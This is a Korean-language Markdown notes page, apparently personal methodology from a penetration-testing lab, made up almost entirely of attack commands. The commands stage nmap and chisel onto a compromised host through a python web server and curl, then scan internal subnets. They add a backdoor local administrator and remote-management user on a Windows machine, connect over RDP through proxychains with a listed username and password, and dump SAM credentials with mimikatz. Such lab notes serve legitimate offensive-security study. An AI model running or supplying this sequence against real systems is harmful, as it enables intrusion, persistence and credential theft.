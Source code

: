 ```yaml
---
layout: page
title: methology
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


```bash
arp -a
```


```bash
ip a
ip route
```


nmap 바이너리 다운로드
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap

```bash
wget https://github.com/andrew-d/static-binaries/raw/refs/heads/master/binaries/linux/x86_64/nmap
--2025-07-08 09:41:39--  https://github.com/andrew-d/static-binaries/raw/refs/heads/master/binaries/linux/x86_64/nmap

python3 -m http.server 80
```

```bash
curl 10.250.180.2/nmap -o nmap
```



Chisel 다운로드
https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz   
--2025-07-08 09:46:35--  https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz

gunzip -d chisel_1.10.1_linux_amd64.gz

chmod +x chisel_1.10.1_linux_amd64

mv chisel_1.10.1_linux_amd64 chisel     # 그냥 파일 이름 바꾸기

python3 -m http.server 80
```

```bash
curl 10.250.180.2/chisel -o chisel
```



```bash
chmod +x nmap
chmod +x chisel
```




```bash
./nmap -v -sn 10.200.180.0/24 --open
```
![[Pasted image 20250708225829.png]]


```bash
./nmap 10.200.180.100 10.200.180.150 10.200.180.250 -v -Pn -oN nmap.log -T5
```






[Windows 쉘 획득 시]
```powershell
net user [USERNAME] [PASSWORD] /add
```


```powershell
net localgroup Administrators [USERNAME] /add
```


```powershell
net localgroup "Remote Management Users" [USERNAME] /add
```


```bash
proxychains -q xfreerdp /v:10.200.180.150 /u:cyberbarbie /p:marksanchez +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```



[mimikatz]
```powershell
\\tsclient\\share\mimikatz\x64\mimikatz.exe
```


```powershell
privilege::debug
token::elevate
lsadump::sam
```


